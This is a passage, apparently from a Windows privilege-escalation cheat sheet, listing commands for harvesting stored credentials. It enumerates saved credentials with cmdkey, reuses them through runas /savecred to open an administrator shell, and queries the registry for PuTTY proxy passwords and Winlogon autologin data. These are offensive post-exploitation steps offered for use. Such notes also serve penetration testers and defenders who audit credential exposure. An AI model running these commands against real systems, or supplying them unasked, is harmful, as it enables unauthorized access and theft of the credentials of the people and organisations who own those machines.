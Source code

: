 List any saved credentials:
```
cmdkey /list
```

If you see any credentials, you can use (with the corresponding user):
```
runas /savecred /user:admin cmd.exe
```

##### PuTTY
List proxy username and password:
```
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```

##### Autologin
Get any autologin data:
```
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
```
